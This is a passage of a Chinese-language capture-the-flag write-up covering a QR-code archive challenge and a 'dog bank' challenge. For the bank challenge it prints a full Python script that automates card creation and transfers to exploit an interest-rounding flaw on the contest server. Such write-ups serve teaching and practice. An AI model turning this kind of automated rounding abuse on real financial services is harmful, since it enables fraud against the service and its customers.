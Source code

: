 以及上次写 pwn 已经是一年前的事情了，这次算是重新捡起来了。我都忘了 `rsp` 是栈顶这种常识了。

## 来自未来的信笺

一看就是模仿 GitHub Archive Program，所以我直接去找了该 Program 有没有提供解压的代码，但可惜的是并没有知道。所以尝试直接解二维码再说。

但本题的难点来了：各大工具都不支持 decode 包含 0x00 的二进制数据，这也是为什么第一个二维码会只读出 `META` 的原因。Ubuntu 安装 `zbarimg==0.2.3` 还各种编译失败，用了老版本的 `gtk` 可还行，但 Mac 就编译并安装成功了。

总之到最后就是组合成 .tar.gz 文件然后就解压解压就能看到 flag 了。

## 狗狗银行

每个储蓄卡放 167 块钱，信用卡贷款 2099 块钱，就可以最大限度薅羊毛啦！四舍五入真的不行（摇头

```python
import requests, json

url = 'http://202.38.93.111:10100/api/'
cookies = {'session':''}
headers = {'Content-Type': 'application/json;charset=UTF-8', 'Authorization': 'Bearer'}

card = [1]
money = 1000

def create_debit():
    global card
    card += [1]
    ret = requests.post(url+'create', cookies=cookies, data=json.dumps({'type':'debit'}), headers=headers, timeout=(5,10))
    assert ret.status_code == 200

def create_credit():
    global card
    card += [2]
    ret = requests.post(url+'create', cookies=cookies, data=json.dumps({'type':'credit'}), headers=headers, timeout=(5,10))
    assert ret.status_code == 200

def transfer(src, dst, amount):
    ret = requests.post(url+'transfer', cookies=cookies, data=json.dumps({'src':src,'dst':dst,'amount':amount}), headers=headers, timeout=(5,10))
    assert ret.status_code == 200

def eat():
    ret = requests.post(url+'eat', cookies=cookies, data=json.dumps({'account':1}), headers=headers, timeout=(5,10))
    assert ret.status_code == 200

for _ in range(70):
    create_credit()
    transfer(len(card), 1, 2099)
    money += 2099

while money - 167 >= 167:
    create_debit()
    transfer(1, len(card), 167)
    money -= 167

for _ in range(10):
    eat()
    print('Eat:', _+1)
    for i in range(len(card), 1, -1):
        if card[i-1] == 1:
            transfer(i, 1, 1)
```